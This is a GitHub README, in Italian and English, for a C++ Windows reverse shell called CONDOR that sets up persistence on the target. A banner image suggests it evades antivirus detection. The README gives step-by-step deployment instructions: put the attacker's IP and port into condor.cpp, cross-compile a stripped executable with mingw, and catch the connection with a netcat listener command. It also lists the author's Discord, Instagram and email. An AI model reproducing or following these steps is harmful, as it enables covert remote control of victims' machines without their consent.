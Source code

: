 ![condorvsvirustotal](https://user-images.githubusercontent.com/91976683/187035611-d7fcb882-e768-48a3-a912-ba83609607b6.PNG)
##  CONDOR reverse shell V1.0
## Language 
    C++
## Author
    Condor
## Organization 
    I'M ROOT 
## Discord 
    https://discord.gg/wkn8gdEjjW
## Instagram 
    https://www.instagram.com/_samueleabbate/
## JobApplication 
    samuele13213@gmail.com

##  ITA
    Una reverse shell che crea una persistenza!!!
    Per qualsiasi problema o richiesta vi consiglio di unirvi nel discord di I'M ROOT "https://discord.gg/wkn8gdEjjW"
    Sarò felice di aiutarvi.

## EN
    A reverse shell that creates persistence !!!
    For any problem or request I suggest you join the I'M ROOT discord 
    "https://discord.gg/wkn8gdEjjW"
    I will be happy to help you.

##  change The IP and Port number in the source code

    There is **condor.cpp** file you have to open and change the **ip address** and **port number**

## Compile it

    apt install mingw-w64

    i686-w64-mingw32-g++ condor.cpp -o condor.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

## Start  the netcat Listener
    
    nc -lvnp <port number>
